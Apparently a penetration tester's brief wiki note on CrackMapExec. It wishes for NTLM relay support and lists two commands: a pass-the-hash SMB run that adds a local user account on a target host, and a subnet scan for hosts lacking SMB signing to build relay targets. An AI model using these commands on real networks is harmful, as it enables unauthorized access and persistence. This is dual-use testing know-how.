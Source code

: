 <!-- TITLE: Crackmapexec -->
<!-- SUBTITLE: A quick summary of Crackmapexec -->


# Wishes
I wish that this could take advantage of a relayed connection ie instead of -H have a -R option that can do a relay (like an ad hoc ntlmrelay attack).  Although... cme doesn't seem to do much ntlmrelayx can't do... perhaps I should have just had ntlmrelayx run the commands.  Again (like so many tools, would like granular control.

# Common CME Runs
## How to execute commands
```text
./crackmapexec.py smb 192.168.10.25 -d . -u compromiseduser -H aad3LMPORTION04eeaad3b435b51404ee:729bb174dNTLMPORTION2f6cd816f377 -x 'net user summit ae2rpw4U!! /add'  
```

## Find Hosts that don't require signing
```
crackmapexec.py smb 192.168.10.0/24 --gen-relay-list targets2
```

